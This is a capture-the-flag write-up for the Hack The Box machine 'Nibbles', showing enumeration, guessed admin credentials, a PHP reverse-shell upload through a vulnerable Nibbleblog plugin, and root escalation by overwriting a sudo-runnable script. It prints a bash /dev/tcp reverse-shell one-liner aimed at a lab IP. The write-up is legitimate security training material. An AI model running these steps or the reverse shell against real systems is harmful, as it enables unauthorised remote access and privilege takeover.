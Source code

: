```yaml
---
title: "HTB - Nibbles writeup"
date: 2025-08-21 12:00:00 +00000
categories: [CTF, HTB]
tags: [CTF, easy, HTB, enumeration]
---
```


![Nibbles Box](/assets/images/nibbles/NIBBLES.png)

**OS :** Linux  
**Difficulty :** Easy  
**Machine IP :** 10.10.10.75

Nibbles is an easy retired box that showcases common enumeration tactics, basic web application exploitation, and a file-related misconfiguration for privilege escalation.

---

## Enumeration

First, we need to scan our target using `nmap` to see the open ports and services running on the target.  
![Nmap Scan](/assets/images/nibbles/nmap_scan.png)

We get:

- SSH open on port 22
    
- HTTP open on port 80
    

Let’s check port 80, but first let’s add the IP address to our `/etc/hosts`:  
![Domain Name](/assets/images/nibbles/domain_name.png)

Now that we’ve added the host, let’s check out the website:  
![Web View](/assets/images/nibbles/web_view.png)

We get nothing here… but after checking the source code, I found a hidden web directory: `/nibbleblog/`.  
![Source Page](/assets/images/nibbles/source_page.png)

Accessing this directory shows us a blog:  
![Blog Page](/assets/images/nibbles/blog_page.png)

Next, I did some directory enumeration to see if there were any hidden files or directories. Using the `common.txt` wordlist, I got:  
![Dir Enum](/assets/images/nibbles/dir_enum.png)   
![Dir Enum Result](/assets/images/nibbles/dir_enum_result.png)

There are some interesting results. The first thing I checked was the `README` file:  
![Readme](/assets/images/nibbles/readme.png)

It shows `Nibbleblog v4.0.3`.

Searching online, I found that it’s a CMS vulnerable to **Arbitrary File Upload**. To exploit this, we need credentials for the admin page.

After some enumeration, I discovered the username `admin`.  
![Username](/assets/images/nibbles/username.png)

I couldn’t find the password at first, but after a few guesses, I ended up with:

```
admin:nibbles
```

Now with credentials, I went to GitHub to check how to get RCE. From the code, I learned I need to upload a PHP reverse shell in `/content/private/plugins/my_image/`.  
![GitHub](/assets/images/nibbles/github.png)

So I went to the admin dashboard → Plugins → My Image → uploaded my reverse shell.  
![Reverse Shell Upload](/assets/images/nibbles/reverse_shell.png)  
![Uploaded Image](/assets/images/nibbles/uploaded_image.png)

---

## Getting a Shell

Then I set up a Netcat listener:  
![Get Shell](/assets/images/nibbles/get_shell.png)

Got the shell! I upgraded it with:

```bash
script /dev/null -c bash
```

![Shell Upgrade](/assets/images/nibbles/shell_upgrade.png)

We are now the user `nibbler`. In the home directory, I grabbed the first flag:  
![First Flag](/assets/images/nibbles/first_flag.png)

---

## Privilege Escalation

I ran:

```bash
sudo -l
```

![sudo](/assets/images/nibbles/sudo-l.png)

It showed that we can run the `monitor.sh` script as root. After unzipping the `personal.zip` file, I got the script.  
![Unzip The File](/assets/images/nibbles/'the zip fie.png')

Checking the file, I noticed I had write permission. So I overwrote it with a reverse shell:

```bash
echo "bash -c 'bash -i >& /dev/tcp/10.10.14.29/6666 0>&1'" > monitor.sh
```

![overwrote](/assets/images/nibbles/overrideFile.png)

Then I started another Netcat listener:  
![root reverse shell](/assets/images/nibbles/root_reverse_shell.png)

Finally, I ran the script as root:

```bash
sudo ./monitor.sh
```

![run the reverse shell](/assets/images/nibbles/'run the reverse shell.png')

And we got a **root shell**!  
![get the root shell](/assets/images/nibbles/get_root_shell.png)

Grabbed the root flag:  
![root flag](/assets/images/nibbles/root_flag.png)

---

and we are DONE  :)


